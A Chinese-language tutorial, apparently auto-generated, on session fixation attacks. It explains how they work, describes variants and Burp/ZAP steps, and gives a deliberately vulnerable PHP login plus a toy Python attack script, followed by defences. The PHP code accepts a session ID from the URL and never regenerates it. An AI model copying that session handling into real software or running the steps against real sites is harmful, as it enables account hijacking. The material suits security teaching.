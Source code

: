 # 会话固定攻击的攻击技术

## 1. 技术原理解析

### 1.1 会话固定攻击概述
会话固定攻击（Session Fixation Attack）是一种利用Web应用程序会话管理漏洞的攻击方式。攻击者通过强制用户使用一个已知的会话ID，从而在用户登录后获取该会话的控制权。这种攻击通常发生在会话ID生成或管理不当的情况下。

### 1.2 底层实现机制
会话固定攻击的核心在于会话ID的管理。Web应用程序通常通过Cookie或URL参数来传递会话ID。攻击者可以通过以下方式实现会话固定攻击：

1. **会话ID生成**：如果应用程序在用户未登录时生成会话ID，并且在用户登录后不重新生成新的会话ID，攻击者可以预先获取一个会话ID。
2. **会话ID传递**：攻击者通过某种方式（如URL参数、邮件链接等）将已知的会话ID传递给受害者。
3. **会话劫持**：当受害者使用攻击者提供的会话ID登录后，攻击者可以利用该会话ID进行未授权操作。

### 1.3 攻击流程
1. 攻击者获取一个会话ID。
2. 攻击者通过某种方式将会话ID传递给受害者。
3. 受害者使用该会话ID登录。
4. 攻击者利用该会话ID进行未授权操作。

## 2. 变种和高级利用技巧

### 2.1 URL参数传递
攻击者可以将会话ID作为URL参数传递给受害者。例如：
```
http://example.com/login?sessionid=123456
```
当受害者访问该URL并登录后，攻击者可以使用`sessionid=123456`进行会话劫持。

### 2.2 Cookie注入
攻击者可以通过跨站脚本攻击（XSS）或中间人攻击（MITM）将已知的会话ID注入到受害者的Cookie中。

### 2.3 邮件钓鱼
攻击者可以通过邮件发送包含会话ID的链接，诱使受害者点击并登录。

### 2.4 高级技巧：会话ID预测
如果会话ID生成算法存在缺陷，攻击者可以通过预测会话ID的方式进行攻击。例如，使用时间戳或递增数字作为会话ID。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了模拟会话固定攻击，我们需要搭建一个简单的Web应用程序。可以使用以下技术栈：
- **Web服务器**：Apache或Nginx
- **编程语言**：PHP、Python或Node.js
- **数据库**：MySQL或SQLite

### 3.2 示例代码
以下是一个简单的PHP应用程序，模拟会话固定攻击：

```php
<?php
session_start();

if (isset($_GET['sessionid'])) {
    session_id($_GET['sessionid']);
}

if (isset($_POST['username']) && isset($_POST['password'])) {
    $_SESSION['username'] = $_POST['username'];
    header('Location: /dashboard.php');
    exit();
}

if (isset($_SESSION['username'])) {
    echo "Welcome, " . $_SESSION['username'];
} else {
    echo '<form method="post">
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
          </form>';
}
?>
```

### 3.3 攻击步骤
1. **获取会话ID**：访问`http://example.com/login`，获取生成的会话ID。
2. **传递会话ID**：将获取的会话ID作为URL参数传递给受害者，例如`http://example.com/login?sessionid=123456`。
3. **受害者登录**：受害者访问该URL并登录。
4. **会话劫持**：攻击者使用相同的会话ID访问`http://example.com/dashboard.php`，获取受害者的会话。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行会话固定攻击
1. **启动Burp Suite**：启动Burp Suite并配置浏览器代理。
2. **拦截请求**：访问目标网站并拦截登录请求。
3. **修改会话ID**：在拦截的请求中，修改会话ID为攻击者已知的会话ID。
4. **发送请求**：发送修改后的请求，完成会话固定攻击。

### 4.2 使用Python脚本进行会话固定攻击
以下是一个简单的Python脚本，用于模拟会话固定攻击：

```python
import requests

# 获取会话ID
session = requests.Session()
response = session.get('http://example.com/login')
session_id = session.cookies.get('PHPSESSID')

# 传递会话ID给受害者
victim_url = f'http://example.com/login?sessionid={session_id}'
print(f"Send this URL to the victim: {victim_url}")

# 模拟受害者登录
login_data = {'username': 'victim', 'password': 'password'}
session.post('http://example.com/login', data=login_data)

# 攻击者使用会话ID进行未授权操作
dashboard_response = session.get('http://example.com/dashboard.php')
print(dashboard_response.text)
```

### 4.3 使用工具：OWASP ZAP
1. **启动OWASP ZAP**：启动OWASP ZAP并配置浏览器代理。
2. **拦截请求**：访问目标网站并拦截登录请求。
3. **修改会话ID**：在拦截的请求中，修改会话ID为攻击者已知的会话ID。
4. **发送请求**：发送修改后的请求，完成会话固定攻击。

## 5. 防御措施
1. **会话ID重新生成**：在用户登录后重新生成会话ID。
2. **HTTPS**：使用HTTPS加密会话ID的传输。
3. **会话ID绑定**：将会话ID与用户IP地址或用户代理绑定。
4. **安全Cookie属性**：设置`HttpOnly`和`Secure`属性，防止Cookie被JavaScript访问或通过非HTTPS传输。

## 6. 总结
会话固定攻击是一种常见的Web安全漏洞，攻击者通过强制用户使用已知的会话ID进行会话劫持。通过深入理解会话固定攻击的原理和利用技巧，可以更好地防御此类攻击。在实际应用中，开发者应遵循最佳实践，确保会话ID的安全管理。

---

*文档生成时间: 2025-03-12 10:14:44*
